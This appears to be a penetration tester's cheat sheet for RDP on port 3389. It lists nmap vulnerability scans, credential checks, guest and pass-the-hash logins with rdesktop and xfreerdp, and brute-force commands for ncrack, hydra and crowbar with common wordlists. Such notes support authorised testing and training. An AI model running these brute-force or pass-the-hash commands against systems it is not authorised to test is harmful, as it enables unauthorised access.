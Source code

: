 # 3389 (RDP)

## Enumeration

### Checks

* [ ] Check if you can login with default guest account and blank password
* [ ] Check if you can brute force users
* [ ] Check for BlueKeep

### nmap

```bash
nmap -p 3389 --script=rdp-enum-encryption,rdp-vuln-ms12-020 <IP> -o 3389_nmap_rdp
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

### Check known credentials

```bash
rdp_check <domain>/<name>:<password>@<IP>  # rdp_check.py from impacket
```

### Manual Login

#### rdesktop

```bash
rdesktop <IP>
# Try default guest account "guest":""
rdesktop -u guest <IP> -g 94%
rdesktop -u guest -p guest <IP> -g 94%
# Use known credentials
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
```

#### xfreerdp

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:[IP] /u:bitbucket /p:[PW]

xfreerdp /u:username /p:password /cert:ignore /v:MACHINE_IP
xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>

xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
```

## Brute Force

#### ncrack

```bash
ncrack -vv --user Administrator -P /usr/share/wordlists/rockyou.txt rdp://<IP>
ncrack -vv --user Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt rdp://<IP>

```

#### Hydra

```bash
hydra -l username -P /usr/share/wordlists/rockyou.txt -t 5 -V ip_address rdp
hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

#### crowbar

```bash
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>
```
